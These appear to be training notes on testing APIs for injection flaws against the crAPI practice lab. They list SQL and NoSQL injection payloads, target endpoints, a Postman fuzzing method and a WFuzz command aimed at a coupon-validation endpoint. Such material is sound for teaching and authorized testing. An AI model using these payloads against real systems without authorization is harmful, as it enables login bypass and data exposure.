 # Injection Vulnerabilities

Testing for Injection Vulnerabilities

### SQL Injection Meta-characters

```go
'
''
;%00
--
-- -
""
;
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
OR 1=1
```

### NoSQL Injection

```go
$gt
{"$gt":""}
{"$gt":-1}
$ne
{"$ne":""}
{"$ne":-1}
$nin
{"$nin":1}
{"$nin":[1]}
{"$where":"sleep(1000)"}
```

The provided lists include SQL injection metacharacters, NoSQL injection payloads, and OS injection characters commonly used to test for vulnerabilities.

### Fuzzing Wide with Postman

#### Injection Targets

1. PUT videos by id
2. GET videos by id
3. POST change-email
4. POST verify-email-token
5. POST login
6. GET location
7. POST check-otp
8. POST posts
9. POST validate-coupon
10. POST orders

Postman, with its Collection Runner, is used to test the entire API collection for injection vulnerabilities. The baseline is established by running the collection with well-formed requests and noting the responses. Fuzzing variables (e.g., \{{fuzz\}}) are added to targeted requests, and the collection is run again to observe any anomalies.

#### Fuzzing Deep with WFuzz

The process involves:

1. Duplicating the Burp Suite-captured request in a file.
2. Constructing a WFuzz attack command with payloads, headers, and data.
3. Executing WFuzz with the attack command.
4. Analyzing the results, filtering for successful attacks.

An example WFuzz command:

```bash
wfuzz -z file,usr/share/wordlists/nosqli -H "Authorization: Bearer TOKEN" -H "Content-Type: application/json" -d "{\"coupon_code\":FUZZ} http://crapi.apisec.ai/community/api/v2/coupon/validate-coupon" --sc 200
```

Successful injection attacks are identified by filtering responses with a status code of 200.

### Troubleshooting WFuzz Attacks

For troubleshooting WFuzz attacks, it's recommended to proxy traffic to Burp Suite using the `-p localhost:8080` option. This allows interception of requests in Burp Suite for detailed analysis and troubleshooting.\


![wfuzz request cli](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/file-uploads/site/2147573912/products/36a887-6ddf-2c-a507-742417c37c0\_injection24.PNG)

![Burp Request](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/file-uploads/site/2147573912/products/e817b5-ced6-ab-8e70-63815edfca1\_injection25.PNG)

This comprehensive testing approach helps identify and exploit injection vulnerabilities in the API.
